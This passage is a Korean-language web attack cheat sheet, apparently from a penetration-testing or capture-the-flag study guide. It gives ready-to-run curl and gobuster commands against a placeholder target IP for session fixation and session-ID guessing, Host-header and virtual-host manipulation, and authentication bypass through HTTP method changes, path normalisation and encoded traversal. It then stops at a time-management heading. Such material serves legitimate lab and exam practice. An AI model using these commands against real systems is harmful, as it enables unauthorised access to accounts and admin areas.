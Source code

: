 
---

## 🎯 고급 웹 공격 기법

### 🔄 세션 하이재킹

```bash
# 세션 쿠키 확인
curl -I http://{IP}/login.php

# 세션 고정 공격 시도
curl -b "PHPSESSID=attacker_session" http://{IP}/admin/

# 예측 가능한 세션 ID 테스트
curl -b "PHPSESSID=1" http://{IP}/admin/
curl -b "PHPSESSID=123456" http://{IP}/admin/
```

### 🌐 Virtual Host 공격

```bash
# Host 헤더 조작
curl -H "Host: admin.{IP}" http://{IP}/
curl -H "Host: internal.company.com" http://{IP}/
curl -H "Host: localhost" http://{IP}/

# Gobuster vhost 스캔
gobuster vhost -u http://{IP} -w /usr/share/wordlists/subdomains-top1million-5000.txt
```

### 🔐 인증 우회 기법

```bash
# HTTP 메소드 우회
curl -X GET http://{IP}/admin/delete.php?id=1
curl -X HEAD http://{IP}/admin/

# 경로 정규화 우회
curl http://{IP}/admin/../admin/
curl http://{IP}/./admin/
curl http://{IP}//admin/

# Unicode 우회
curl http://{IP}/admin%2e%2e%2fadmin/
```

---

## ⏱️ 시간 관리 가이드

### 🎯 15분 안에 완료할 것들
